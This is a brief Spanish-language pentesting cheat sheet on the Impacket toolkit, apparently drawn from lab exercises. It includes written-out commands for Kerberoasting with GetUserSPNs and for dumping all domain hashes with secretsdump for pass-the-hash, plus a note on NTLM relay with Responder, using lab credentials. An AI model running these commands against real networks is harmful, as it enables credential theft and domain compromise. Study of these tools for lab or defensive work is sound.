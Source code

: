 git tag

git show



# IMPACKET

viernes, 24 de julio de 2020

21:31

En caso que impacket no esté instalado, es más útil correrlo desde docker

Touch ./Dockefile

docker build -t &quot;impacket:latest&quot; --file ./Dockefile .

docker run -it --rm &quot;impacket:latest&quot;



-------------------------

/usr/bin/impacket-GetUserSPNs

sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.106.50 -request

---\&gt; this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

A veces no es necesario el sudo o el python

![](RackMultipart20210412-4-pcx9xb_html_15bcb522e911bf26.png)

/usr/bin/impacket-netview

/usr/bin/impacket-ntlmrelayx -\&gt; EN combinación con el responder, podemos secuestrar la petición de un sitio inválido para redirigirlo a un objetivo y pedirle que ejecute un comando

![](RackMultipart20210412-4-pcx9xb_html_4d4fabcbf09b280d.png)

/usr/bin/impacket-rpcdump

/usr/bin/impacket-samrdump

/usr/bin/impacket-secretsdump secretsdump.py -just-dc [backup:backup2517860@spookysec.local](mailto:backup:backup2517860@spookysec.local) ---\&gt;permite extraer todos los hashes del dominio y luego explotarlo via pass the hash

/usr/bin/impacket-smbserver para compartir por linux una carpeta tipo windows.

![](RackMultipart20210412-4-pcx9xb_html_96cfa5817038bd33.png)

/usr/bin/impacket-ticketer

/usr/bin/impacket-wmiexec

enum4linux -A

